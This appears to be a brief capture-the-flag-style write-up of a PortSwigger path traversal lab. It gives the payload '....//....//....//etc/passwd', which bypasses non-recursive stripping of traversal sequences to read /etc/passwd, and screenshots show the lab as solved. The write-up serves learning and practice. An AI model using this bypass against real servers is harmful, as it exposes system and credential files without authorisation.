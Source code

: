 This lab contains a path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

### Solution

give the payload  `....//....//....//etc/passwd` 

we will recive the result

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/51c83c53-801a-4be4-88a5-240dbee2292b)

lab solved succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/71bcf859-fd87-47b9-a281-c0408d9ab81c)
